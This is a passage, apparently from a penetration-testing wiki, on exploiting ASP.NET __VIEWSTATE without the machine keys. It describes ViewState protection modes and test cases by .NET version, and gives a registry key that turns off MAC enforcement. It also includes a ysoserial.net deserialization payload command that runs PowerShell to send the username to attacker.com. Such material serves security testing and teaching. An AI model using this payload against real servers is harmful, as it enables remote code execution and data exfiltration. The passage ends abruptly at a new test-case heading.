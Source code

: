 # Exploiting \_\_VIEWSTATE without knowing the secrets



## What is ViewState

**ViewState** serves as the default mechanism in ASP.NET to maintain page and control data across web pages. During the rendering of a page's HTML, the current state of the page and values to be preserved during a postback are serialized into base64-encoded strings. These strings are then placed in hidden ViewState fields.

ViewState information can be characterized by the following properties or their combinations:

- **Base64**:
  - This format is utilized when both `EnableViewStateMac` and `ViewStateEncryptionMode` attributes are set to false.
- **Base64 + MAC (Message Authentication Code) Enabled**:
  - Activation of MAC is achieved by setting the `EnableViewStateMac` attribute to true. This provides integrity verification for ViewState data.
- **Base64 + Encrypted**:
  - Encryption is applied when the `ViewStateEncryptionMode` attribute is set to true, ensuring the confidentiality of ViewState data.

## Test Cases

The image is a table detailing different configurations for ViewState in ASP.NET based on the .NET framework version. Here's a summary of the content:

1. For **any version of .NET**, when both MAC and Encryption are disabled, a MachineKey is not required, and thus there's no applicable method to identify it.
2. For **versions below 4.5**, if MAC is enabled but Encryption is not, a MachineKey is required. The method to identify the MachineKey is referred to as "Blacklist3r."
3. For **versions below 4.5**, regardless of whether MAC is enabled or disabled, if Encryption is enabled, a MachineKey is needed. Identifying the MachineKey is a task for "Blacklist3r - Future Development."
4. For **versions 4.5 and above**, all combinations of MAC and Encryption (whether both are true, or one is true and the other is false) necessitate a MachineKey. The MachineKey can be identified using "Blacklist3r."

### Test Case: 1 – EnableViewStateMac=false and viewStateEncryptionMode=false

It is also possible to disable the ViewStateMAC completely by setting the `AspNetEnforceViewStateMac` registry key to zero in:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{VersionHere}
```
```
**Identifying ViewState Attributes**

You can try to identify if ViewState is MAC protected by capturing a request containing this parameter with BurpSuite. If Mac is not used to protect the parameter you can exploit it using [[https://github.com/pwntester/ysoserial.net|**YSoSerial.Net**]]

```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName"
```
```
### Test case 1.5 – Like Test case 1 but the ViewState cookie isn't sent by the server
